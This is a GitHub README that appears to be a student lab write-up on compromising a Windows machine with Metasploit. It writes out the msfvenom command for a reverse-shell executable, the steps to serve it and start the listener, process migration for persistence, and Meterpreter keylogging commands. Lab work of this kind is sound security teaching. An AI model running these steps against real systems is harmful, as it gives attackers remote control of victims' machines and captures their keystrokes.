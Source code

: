 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/9c3d7291-13ee-4451-a8de-4eefe7880320)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/9e30c9c8-c0fa-409b-afaa-01d2399ccf6b)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/80219c7a-92db-4638-a861-054a30a2b399)

Start apache server sudo systemctl apache2 start

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/c2faf12b-9b74-4043-ad3b-6acf3eaf4f7b)

Check the status of apache2

1

Invoke msfconsole:
msfconsole

![WhatsApp Image 2024-04-28 at 11 38 36_53dc1558](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/85861281-56c3-4923-b6a7-72b3599b29f8)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/da78634f-3b70-42c8-8505-6cb242d59e20)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/6df5750f-0811-453a-8627-c83bb1ea4e05)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/6f0ae1cd-4e4a-4846-99ae-ad092f781740)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/d00ef273-1af2-455b-b3bb-e038d8ca7a9c)

On kali give the command exploit

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/164885b8-8377-49fc-9d93-1a2af179a611)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/c015c874-f9a6-46a7-a453-d03c6c079313)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/e27ee98b-24c7-4012-a12e-9960b8c21f53)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/1c6030a8-eb8e-47bb-ab1f-1befe12bbc18)

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/5b6cc1cd-932d-4731-8da6-54e5554d9ac6)

keyscan_dump Shows the keystrokes captured so far.

![image](https://github.com/chandrumathiyazhagan/Compromising-windows-using-Metasploit/assets/119393023/9406a409-6697-469b-901c-8df853263a81)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
